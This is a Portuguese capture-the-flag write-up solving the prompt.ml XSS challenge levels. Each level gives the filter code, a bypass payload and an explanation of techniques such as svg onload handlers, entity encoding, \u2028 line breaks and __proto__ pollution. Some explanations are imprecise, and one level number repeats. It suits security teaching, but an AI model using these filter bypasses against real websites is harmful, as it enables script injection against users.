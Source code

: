 # Cross-site scripting (XSS) 
###### Solved by @Mayaracar2
> This is a CTF about JavaScript analysis, xss script
## Desafio: Prompt.ml
### Sobre o desafio:
O prompt.ml é uma série de desafios de XSS (Cross-Site Scripting) organizada em níveis, cada um apresentando uma função escape() diferente que impõe filtros específicos na entrada do usuário, e tem como objetivo explorar vulnerabilidades para conseguir rodar código JavaScript, usando o prompt(1) como prova de que o XSS foi bem sucedido.
- [Página do desafio](https://prompt.ml/0)
  
## Soluções:
### Fase 0
Este é o código dado:

```bash
 function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}        
```
#### Análise:

A função gera um elemento `<input>` com o valor recebido diretamente, sem escapar caracteres especiais. Isso permite que um atacante quebre o atributo `value` e injete código arbitrário.

#### Payload usado:

```bash
"><script>prompt(1)</script>`
```

#### Por que funciona?

-Fecha o atributo value usando `>`, escapando do contexto onde o conteúdo deveria ser tratado apenas como texto.

-Em seguida, ele insere uma tag `<script>`, que o navegador reconhece e executa como código JavaScript, visto que a função não realiza nenhum filtro ou escape dos caracteres especiais (<, >, "), o navegador interpreta a injeção como parte do HTML, em vez de simples texto, permitindo a execução do script malicioso.

### Fase 1
Este é o código dado:

```bash
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}         
```
#### Análise:

Neste código, a função recebe um input e remove todas as tags HTML usando uma expressão regular (stripTagsRE).

#### Payload usado:

```bash
<svg/onload=prompt(1)
```

#### Por que funciona?

`<svg/`: A regex falha em detectá-lo como tag devido à sua sintaxe incomum, porém passa "ileso".

`onload=prompt(1)`: Atributo de evento JavaScript que é disparado, executando o prompt(1).

### Fase 2
Este é o código dado:

```bash
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}        
```

#### Análise:

Nesse código, tem uma função de escape que remove caracteres específicos como `(=` e `()` de uma string de entrada.

#### Payload usado:

```bash
<svg><script>prompt&#40;1)</script>
```

#### Por que funciona?

`<svg>`: Utilizado como uma "camuflagem", na qual a tag é permitida pelo navegador, ativando o modo SVG e dentro dele, é possivel rodar o <script> normalmente.

`prompt&#40;1)`: O `&#40;` é decodificado pelo navegador como `(` , com base no  [HTML entities](https://www.freeformatter.com/html-entities.html).

### Fase 3
Este é o código dado:

```bash
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}        
```

#### Análise:

Nesse código, a função de escape adiciona o input dentro de um comentário HTML, evitando a execução de scripts maliciosos, substituindo `->`por `_`.

#### Payload usado:

```bash
--!><svg onload=prompt(1)
```

#### Por que funciona?

`--!>`: Como o código não aceita ->, é preciso fechar o comentário para depois o payload ser executado.

`<svg onload=prompt(1)>`: Executa o JavaScript quando o elemento é carregado.

### Fase 4
Não foi possível concluir essa fase.

### Fase 5
Este é o código dado:

```bash
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}            
```

#### Análise:

Este código, impede de gerar tags devido o bloqueio do `>`, bloqueia também qualquer atributo de evento como o anload=, onclick=, onerror=, devido o `on.+?`, além de bloquear a palavra `focus`.

#### Payload usado:

```bash
"type=image src onerror
="prompt(1)
```

#### Por que funciona?

- O filtro usou uma regex fraca, na qual o atacante inseriu uma quebra de linha entre o nome do evento e o sinal `=`.

- O navegador ignora a quebra e interpreta como atributo válido `(onerror=)`.

- O onerror dispara quando a imagem não carrega e o `prompt(1)` é executado.

### Fase 6
Este é o código dado:

```bash
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}          
```

#### Análise:

No código, a função recebe uma entrada no formato `URL#JSON`, gerando um formulário HTML a partir dos dados do JSON e realizando automaticamente o envio por POST.

#### Payload usado:

```bash
javascript:prompt(1)#{"action":1}
```

#### Por que funciona? 

- Quando o `javascript:` é insrido em um link (ou na barra do navegador), tudo depois de javascript: é avaliado como código JavaScript.

- O navegador interpreta apenas a parte antes do # como código JavaScript.

- Tudo após o # é tratado como fragmento da URL (hash), e o navegador não executa isso como código.

### Fase 7
Este é o código dado:

```bash
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}        
```

#### Análise:

No código a função recebe uma string com títulos separados por # e limita cada título a cada 12 caracteres e transforma cada um em uma tag <p> com classe comment e atributo title. Depois junta tudo em uma string com quebra de linha.

#### Payload usado:

```bash
"><svg/m=#"onload='/*#*/prompt(1)'
```

#### Por que funciona? 

`>`: fecha o value

`<svg/m=#"`: Entra no svg e para confundir/fechar atributos anteriores.

`onload='prompt(1)'`: Usado para disparar o prompt(1), logo depois da tag ser carregada.

`/*#*/`: Comentário usado para burlar filtros de caracteres, ele é necessário porque o navegador ignora o comentário, porém ele quebra o padrão que o filtro procura.

### Fase 8
Este é o código dado:

```bash
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}        
```

#### Análise:

Nesse código, a função escape remove quebra de linh, aspas e alguns caracteres HTML, inserindo a string dentro de um comentário em `<script>` com um console.log.

#### Payload usado:

```bash
document.getElementById("input").value="\u2028prompt(1)\u2028-->"
```
(executado no console)

#### Por que funciona? 

Funciona porque `\u2028` em JavaScript é interpretado como uma quebra de linha, portanto encerra o comentário e passa a executar o prompt(1).

### Fase 8
Este é o código dado:

```bash
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}        
```

#### Análise:

O código procura qualquer tag HTML que começa com `<` e é seguido de letra, adicionando um `_` depois do `<`.

#### Payload usado:

```bash
<ſvg/onload=&#112;&#114;&#111;&#109;&#112;&#116;&#40;&#49;&#41;>
```
#### Por que funciona? 

`ſvg`: Um caracter unicode (U+ 017F) que visualmente parece com s, então é aceito como equivalente.

`onload=`: Dispara quando o elemento é carregado.

`&#112;&#114;&#111;&#109;&#112;&#116;&#40;&#49;&#41;`: São entidades númericas HTML que representa caracteres ASCII, que quando interpretado, converte para texto normal.

`&#112;` → p

`&#114;` → r

`&#111;` → o

`&#109;` → m

`&#112;` → p

`&#116;` → t

`&#40;` → (

`&#49;` → 1

`&#41;` → )

### Fase A
Este é o código dado:

```bash
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}        
```
#### Análise:

A função aplica codificação e manipulações no input para bloquear o uso de prompt, mas insere o resultado diretamente dentro de uma tag <script>.

#### Payload usado:

```bash
p'rompt(1)
```
#### Por que funciona? 

A sequência `p'rompt(1)` é usada para driblar filtros básicos que bloqueiam diretamente a palavra prompt e ao inserir um caractere extra, como `'`, dentro do termo, o filtro não identifica a palavra completa e permite que ela passe. 

### Fase B
Este é o código dado:

```bash
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}        
```

#### Análise:

A função tenta higienizar o valor recebido (como um nome de usuário), transforma esse valor em JSON e depois o insere dentro de uma tag <script>.

#### Payload usado:

```bash
"(prompt(1))in"
```

#### Por que funciona? 

Funciona porque o filtro não bloqueia o conteúdo, e dentro de uma tag `<script>` o JavaScript interpreta `(prompt(1))` como uma chamada de função válida. O uso de `in` garante que o código continue sendo uma expressão válida, evitando que o script quebre.

### Fase C
Este é o código dado:

```bash
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}        
```
#### Análise:

A função escape codifica o valor recebido com `encodeURIComponent`, elimina caracteres de aspas simples e troca qualquer ocorrência da palavra prompt por alert. Em seguida, insere esse conteúdo diretamente dentro de uma tag `<script>`.

#### Payload usado:

```bash
eval(630038579..toString(30))(1)
```

#### Por que funciona? 

Esse código funciona porque o número `630038579` convertido para base 30 vira a string `"eval"`. Assim, ele reconstroi dinamicamente a função `eval` e a executa com argumento `1`.

### Fase D
Este é o código dado:

```bash
function escape(input) {
    // extend method from Underscore library
    // _.extend(destination, *sources) 
    function extend(obj) {
        var source, prop;
        for (var i = 1, length = arguments.length; i < length; i++) {
            source = arguments[i];
            for (prop in source) {
                obj[prop] = source[prop];
            }
        }
        return obj;
    }
    // a simple picture plugin
    try {
        // pass in something like {"source":"http://sandbox.prompt.ml/PROMPT.JPG"}
        var data = JSON.parse(input);
        var config = extend({
            // default image source
            source: 'http://placehold.it/350x150'
        }, JSON.parse(input));
        // forbit invalid image source
        if (/[^\w:\/.]/.test(config.source)) {
            delete config.source;
        }
        // purify the source by stripping off "
        var source = config.source.replace(/"/g, '');
        // insert the content using mustache-ish template
        return '<img src="{{source}}">'.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
}        
```
#### Análise:

O código recebe um JSON com a URL de uma imagem, aplica configurações padrão por meio de extend, faz uma validação simplificada da URL usando regex e depois gera uma tag substituindo diretamente `{{source}}`.

#### Payload usado:

```bash
{"source":{},"__proto__":{"source":"$`onerror=prompt(1)>"}}
```

#### Por que funciona? 

Isso funciona porque o `extend()` permite poluir o `__proto__`, o que injeta a propriedade source maliciosa dentro de config. A regex de validação não é suficiente para bloquear isso, e o valor injetado vai parar dentro do src da `<img>`, ativando o onerror.

### Fase E
Não foi possível concluir essa fase.

### Fase F
Este é o código dado:

```bash
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}        
```
#### Análise:

No código, a função escape recebe um texto no formato `texto1#texto2#texto3...` e realiza várias operações para gerar conteúdo HTML estruturado:

- Remoção de caracteres especiais:

Inicialmente, todos os asteriscos (*) presentes no input são eliminados, evitando que eles interfiram na formatação ou no conteúdo dos parágrafos gerados.

- Divisão do texto em segmentos:

O input é separado usando o caractere `#` como delimitador, cada pedaço entre os # se torna um segmento independente que será transformado em um parágrafo.

- Geração de parágrafos HTML:

Para cada segmento criado, a função gera uma tag `<p>` no HTML.

Cada parágrafo recebe dois atributos especiais:

`title`: contém os primeiros 15 caracteres do segmento e esses caracteres não passam por sanitização, ou seja, são inseridos diretamente no HTML.

`data-comment`: contém um JSON seguro no formato {"id": índice}, em que o índice representa a posição do segmento na lista.

Dessa forma, a função transforma um texto delimitado por `#` em múltiplos parágrafos HTML, cada um com metadados associados de forma estruturada e segura (para o JSON), mas deixando o conteúdo textual parcialmente exposto no atributo title.

#### Payload usado:

```bash
"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</script>
```

#### Por que funciona? 

- O filtro da função escape não impede a injeção, porque ele só remove `*` e limita o tamanho do título, não escapa caracteres especiais como `" ou <`, o payload fecha o atributo title `(">)` e insere tags diretamente no HTML.

- Os comentários HTML `<!--#-->` são ignorados pelo navegador, mas enganam o filtro, permitindo que o `prompt(1)` seja executado sem ser detectado.

## Conclusão:

O desafio Prompt.ml demonstra como filtros superficiais e funções de escape mal implementadas podem ser contornados de diversas formas, permitindo a execução de código JavaScript malicioso e evidenciando a importância de validação e escaping rigorosos em todos os contextos.
